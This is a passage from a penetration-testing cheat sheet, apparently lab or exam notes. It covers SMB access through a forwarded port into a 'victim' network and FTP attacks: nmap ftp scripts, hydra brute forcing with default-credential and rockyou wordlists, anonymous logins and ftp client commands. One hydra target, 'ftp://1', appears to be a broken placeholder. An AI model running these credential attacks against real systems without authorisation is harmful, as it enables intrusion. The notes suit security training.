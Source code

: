 ```sh
# on kali:
# now you can use your newly forwarded port to reach inside the victim network:
smbclient -U victim --password=victimpass -p 4455 -L //NAMESERVER_IP/
# connection will be very slow.
```


## FTP - 21

**easy fruit logins**:

```sh #try this in the beggining 
nmap --script ftp-* -p 21 {IP}

hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://1

hydra -P /usr/share/wordlists/rockyou.txt -l USER ftp://1
```

**Connecting & Interaction:**

```sh
# ways to connect, in order of preference
ftp -A VICTIM_IP # '-A' forces active mode (not passive)

# interaction using the 'ftp' app
- anonymous : anonymous
- anonymous :
- ftp : ftp
ftp> anonymous # username
ftp> anonymous # password
ftp> help # show list of supported commands
ftp> help CMD # show command-specific help
ftp> binary # set transmission to binary instead of ascii
ftp> ascii # set transmission to ascii instead of binary
ftp> ls -a # list all files (even hidden) (yes, they could be hidden)
ftp> cd DIR # change remote directory
ftp> lcd DIR # change local directory
ftp> pwd # print working directory
ftp> cdup  # change to remote parent directory
ftp> mkdir DIR # create directory
ftp> get FILE [NEWNAME] # download file to kali [and save as NEWNAME]
ftp> mget FILE1 FILE2 ... # get multiple files
ftp> put FILE [NEWNAME] # upload local file to FTP server [and save as NEWNAME]
ftp> mput FILE1 FILE2 ... # put multiple files
ftp> rename OLD NEW # rename remote file
ftp> delete FILE # delete remote file
ftp> mdelete FILE1 FILE2 ... # multiple delete remote files
ftp> mdelete *.txt # delete multiple files matching glob pattern
ftp> bye # exit, quit - all exit ftp connection

# Check `/etc` folder.
ftpusers
ftpusers
ftp.conf
proftpd.conf
vsftpd.conf
```
